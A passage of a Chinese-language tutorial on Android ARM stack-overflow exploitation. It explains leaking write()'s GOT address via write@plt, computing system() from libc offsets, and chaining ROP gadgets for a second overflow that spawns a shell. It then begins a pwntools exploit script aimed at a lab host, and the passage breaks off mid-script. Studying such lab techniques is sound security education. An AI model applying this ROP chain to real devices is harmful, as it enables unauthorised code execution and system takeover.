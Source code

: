     int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
    }
    

![p6](http://static.wooyun.org//drops/20151216/2015121615313311640617.png)

![p7](http://static.wooyun.org//drops/20151216/2015121615313520385716.png)

虽然程序非常简单，可用的gadgets很少。但好消息是我们发现除了程序本身的实现的函数之外，我们还可以使用`write@plt()`函数。但因为程序本身并没有调用`system()`函数，所以我们并不能直接调用`system()`来获取shell。但其实我们有`write@plt()`函数就够了，因为我们可以通过`write@plt()`函数把`write()`函数在内存中的地址也就是write.got给打印出来。既然`write()`函数实现是在libc.so当中，那我们调用的`write@plt()`函数为什么也能实现`write()`功能呢? 这是因为android和linux类似采用了延时绑定技术，当我们调用`write@plit()`的时候，系统会将真正的`write()`函数地址link到got表的write.got中，然后`write@plit()`会根据write.got 跳转到真正的`write()`函数上去。（如果还是搞不清楚的话，推荐阅读潘爱民老师的《程序员的自我修养 -链接、装载与库》这本书，潘老师是我主管的事情我才不会告诉你。。。）

因为`system()`函数和`write()`在libc.so中的offset(相对地址)是不变的，所以如果我们得到了`write()`的地址并且拥有目标手机上的libc.so就可以计算出`system()`在内存中的地址了。然后我们再将pc指针return回`vulnerable_function()`函数，就可以进行第二次溢出攻击了，并且这一次我们知道了`system()`在内存中的地址，就可以调用`system()`函数来获取我们的shell了。

另外需要注意的是write()函数是三个参数，因此我们还需要控制r1和r2才行，刚好程序中有如下gadget可以满足我们的需求：

    
    
    #!bash
    #0x0000863a : pop {r1, r2, r4, r5, r6, pc}
    

另外为了能再一次返回`vulnerable_function()`，我们需要构造好执行完write函数后的栈的数据，让程序执行完`ADD SP,SP`,`#0x84`;`POP {PC}`后，PC能再一次指向`0x000084D8`。

![p8](http://static.wooyun.org//drops/20151216/2015121615313664430815.png)

最终的explevel9.py如下：

    
    
    #!python
    #!/usr/bin/env python
    from pwn import *
    
    #p = process('./level7')
    p = remote('30.10.20.253',10001)
    
    p.recvuntil('\n')
    
    #0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
    gadget1 = 0x000088be + 1
    
    #0x0000863a : pop {r1, r2, r4, r5, r6, pc}
    gadget2 = 0x0000863a + 1
    
    #.text:000084D8 vulnerable_function
    ret_to_vul = 0x000084D8 + 1
    
    #write(r0=1, r1=0x0000AFE8, r2=4)
    r0 = 1
    r1 = 0x0000AFE8
    r2 = 4
    r4 = 0
    r5 = 0
    r6 = 0
    write_addr_plt = 0x000083C8
    